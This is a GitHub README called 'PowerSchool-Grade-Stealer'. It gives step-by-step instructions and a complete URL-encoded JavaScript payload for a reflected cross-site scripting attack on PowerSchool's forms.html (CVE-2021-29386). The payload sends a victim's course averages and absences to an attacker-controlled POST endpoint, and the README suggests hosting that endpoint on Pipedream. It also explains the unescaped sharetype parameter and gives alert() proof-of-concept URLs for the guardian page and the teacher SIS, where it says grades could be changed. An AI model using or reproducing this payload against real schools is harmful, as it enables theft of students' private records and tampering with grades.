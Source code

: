 # PowerSchool-Grade-Stealer

The script in this repository just generates the link for the victim to click on, but it only works on macOS and Linux (if you remove the pbcopy command). A link can be created manually by doing the following:

1. Set up an endpoint URL that logs POST requests to it (can be set up at [Pipedream](https://pipedream.com) by creating an event source).
2. In the following text, replace the text in brackets (and the brackets themselves) with the corresponding information that is described in the brackets:

**[the base URL of the website where PowerSchool is installed]**/guardian/forms.html?sharetype=%22%3Bfunction%20makeHttpObject()%7Btry%7Breturn%20new%20XMLHttpRequest()%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Msxml2.XMLHTTP%22)%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Microsoft.XMLHTTP%22)%7Dcatch(error)%7B%7Dthrow%20new%20Error(%22Could%20not%20create%20HTTP%20request%20object.%22)%3B%7Dvar%20request%3DmakeHttpObject()%3Brequest.open(%22GET%22%2C%22[**the base URL of the website where PowerSchool is installed]**/guardian/home.html%22%2Ctrue)%3Brequest.send(null)%3Brequest.onreadystatechange%3Dfunction()%7Bif(request.readyState%3D%3D4)console.log(request.responseText)%7D%3B%0A(function()%7B%0A%20%20%20%20var%20oldLog%20%3D%20console.log%3B%0A%20%20%20%20console.log%20%3D%20function%20(message)%20%7B%0A%20%20%20%20%20%20%20%20var%20xhttp%20%3D%20new%20XMLHttpRequest()%3B%0A%20%20%20%20%20%20%20%20xhttp.open(%22POST%22%2C%20%22[**the endpoint's URL]**%22%2C%20true)%3B%0A%20%20%20%20%20%20%20%20xhttp.send(message)%3B%0A%20%20%20%20%20%20%20%20oldLog.apply(console%2C%20arguments)%3B%0A%20%20%20%20%7D%3B%0A%7D)()%3B%0Adocument.body.innerHTML%20=%20%27%27%2F%2F

The payload.js file just contains the URL decoded JavaScript code of this.

Note: This only sends the averages of each course and the absences/tardies.

# The Vulnerability

The vulnerability is present on line 1,042 in forms.html:

`sharetype = "whatever is after sharetype=",`

When quotes are passed after sharetype=, they are not escaped. So a quote may be able to close the string and then a semicolon following that quote may be able to end the whole variable assignment statement. JavaScript code can be appended afterwards and then be followed by a comment operator, "//", to make the interpreter ignore the quote and comma that follows: 

/guardian/forms.html?sharetype=";alert()//

In the source code, this appears as:

`sharetype = "";alert()//",`

This bypasses PowerSchool's cross-site scripting mitigation by not using angle brackets. The vulnerability was assigned CVE-2021-29386.

A variant of this vulnerability is also present in the teacher SIS, which can theoretically be used to change grades, though it is harder to exploit due to the fact that it requires sending fields such as a seemingly random student ID.

Proof-of-concept:
/teachers/formbuilder/forms.html?sharetype=";alert()//
